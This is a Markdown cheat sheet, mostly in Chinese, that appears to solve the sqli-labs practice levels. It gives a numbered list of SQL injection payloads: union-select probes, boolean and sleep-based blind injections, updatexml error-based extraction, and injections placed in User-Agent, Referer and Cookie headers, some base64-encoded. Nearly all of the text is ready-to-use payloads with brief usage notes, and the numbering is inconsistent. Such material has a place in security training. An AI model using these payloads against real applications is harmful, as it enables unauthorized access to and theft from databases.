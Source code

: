 ### Sqllabs

1. `-1%27%20union%20select%201,2,3--+`

2. `-1%20union%20select%201,2,3--+`

3. `-1%27)%20union%20select%201,2,3--+`

4. `-1")%20union%20select%201,2,3--+`

5. `1%27%20and%20if(substr((database()),1,1)=%27s%27,1,0)--+`

5. `1"%20and%20if(substr((database()),1,1)=%27s%27,1,0)--+`

5. 利用文件操作函数将结果写入文件

5. `1%27%20and%20if(substr((database()),1,1)=%27s%27,1,0)--+`

5. `1%27%20and%20if(substr((database()),1,1)=%27s%27,sleep(5),0)--+`

5. `1"%20and%20if(substr((database()),1,1)=%27s%27,sleep(5),0)--+`

5. `1"%20and%20if(substr((database()),1,1)=%27s%27,1,0)--+`

12. `1") union select database(),2--+("`

13. `1') union select 1,2--+('`

    `1') union select group_concat(table_name) from information_schema.tables where 1=1 and updatexml(1,concat(0x7e,(database()),0x7e),1)--+('`

14. `" union select group_concat(table_name) from information_schema.tables where 1=1 and updatexml(1,concat(0x7e,(database()),0x7e),1)--+"`

15. `' or if(substr((database()),1,1)='s',sleep(5),0)--+'`

16. `") or if(substr((database()),1,1)='s',sleep(5),0)--+("`

    对于以上两种(15,16)盲注，要使用or链接
    
17. `1' and updatexml(1,concat(0x7e,(database()),0x7e),1)#`

18. 登陆成功时，会出现你的User-agent信息，在User-agent处写入`', '', updatexml(1,concat(0x7e,(database()),0x7e),1))#`

19. 登陆成功时，会出现你的Referer信息，在Referer处写入`', '', updatexml(1,concat(0x7e,(database()),0x7e),1))#`

20. 登陆成功时，会出现你的Cookie信息，在Cookie处写入`'and updatexml (1,concat(0x7e,(database()),0x7e),1)#`

21. 登陆成功时，会出现经base64编码的cookie信息，在Cookie处写入base64编码后的payload：`JykgYW5kIHVwZGF0ZXhtbCgxLGNvbmNhdCgweDdlLChkYXRhYmFzZSgpKSwweDdlKSwxKSM=`

22. 登录成功时，会出现经base64编码的cookie信息，在Cookie处写入加双引号的base64编码后的payload：

    `IiB1bmlvbiBzZWxlY3QgMSwyLDMj`

23. 注释符不生效被替换，把前后单引号都闭合即可`1%27%20or%20updatexml(1,concat(0x7e,(database()),0x7e),1)%20or%20%27`

24. 


